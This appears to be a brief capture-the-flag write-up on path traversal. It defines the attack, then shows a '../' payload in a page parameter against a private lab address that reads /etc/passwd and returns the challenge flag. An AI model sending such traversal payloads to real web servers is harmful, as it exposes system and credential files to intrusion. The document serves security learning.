 # Path_Traversal

A path traversal attack (also known as directory traversal) aims to access files and directories that are stored outside the web root folder. By manipulating variables that reference files with “dot-dot-slash (../)” sequences and its variations or by using absolute file paths, it may be possible to access arbitrary files and directories stored on file system including application source code or configuration and critical system files. It should be noted that access to files is limited by system operational access control (such as in the case of locked or in-use files on the Microsoft Windows operating system).

This attack is also known as “dot-dot-slash”, “directory traversal”, “directory climbing” and “backtracking”.

## Do_some_path_traversal

    Example: ../../../../../../../../../etc/passwd

    /etc/passwd is unix password file

    So i try this: http://192.168.56.101/?page=../../../../../../../../../etc/passwd.
    And i get a flag: b12c4b2cb8094750ae121a676269aa9e2872d07c06e429d25a63196ec1c8c1d0 